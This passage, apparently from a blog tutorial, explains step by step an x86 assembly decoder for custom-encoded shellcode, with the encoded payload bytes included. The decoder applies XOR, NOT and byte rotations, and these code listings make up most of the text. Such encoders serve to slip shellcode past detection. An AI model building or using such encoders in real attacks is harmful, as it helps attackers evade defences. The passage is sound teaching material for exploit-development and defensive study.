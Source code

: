     ; if they are equal jump to the next decoding operation: NOT
    je NotDecode

    ; if they aren't the equal, then XOR the byte with 'shellcode_length_least_byte'
    ;   which is the length of the shellcode XOR-ed with ROT_EVEN
    mov dl, [esi+2]
    xor BYTE [ebx], dl</code></pre><figcaption>Perform the 1st Decoding operation (<code>XOR</code>) or move to the next one, based on the commented condition</figcaption></figure><pre><code class="language-nasm">CallShellcode:

    call Shellcode
    encoded: db 0x2,0xa8,0x1e,0xa8,0xad,0x21,0xf5,0x89,0x7a,0xce,0x3d,0x89,0xfb,0xce,0x2a,0x83,0xbb,0x51,0x23,0x68,0x19,0x6c,0xf2,0xc5,0xe3,0x6c,0xf4,0xc5,0xe3,0x2c,0xc1,0xeb</code></pre><p>Now that the first operation is done, it's time to move to the second one:</p><pre><code class="language-nasm">Decode:

    mov dl, [esp]
    cmp dl, BYTE [ebx]
    je NotDecode

    mov dl, [esi+2]
    xor BYTE [ebx], dl

NotDecode:

    not BYTE [ebx]</code></pre><!--kg-card-begin: markdown--><p>This one is very straightforward: based on the Decode routine I've already shown, if the current byte and the one known as <code>shellcode_length_least_byte</code> are equal, it jumps to <code>NoteDecode</code> in order to perform the <code>NOT</code> operation.</p>
<p>After that, the shellcode has to perform the 3d decoding operation:</p>
<blockquote>
<ol start="3">
<li>Rotate bytes
<ul>
<li>if the index of the byte is <code>even</code>, then rotate to the left (<code>ROL</code>) <code>ROT_EVEN</code> times</li>
<li>if the index of the byte is <code>odd</code>, then rotate to the right (<code>ROR</code>) <code>ROT_ODD</code> times</li>
</ul>
</li>
</ol>
</blockquote>
<p>Follows the assembly code of interest:</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">RotateBytes:

    ; save EBX before overwriting it
    push ebx

    ; check if the index is EVEN or ODD
    ; Math logic:
    ;   - EBX - ESI = 4 + current_byte_index
    ;   - if the Least Significant Bit is 1, then it is ODD
    ;   - use test to set the ZF flag if the index is ODD
    sub ebx, esi
    test bl, 1

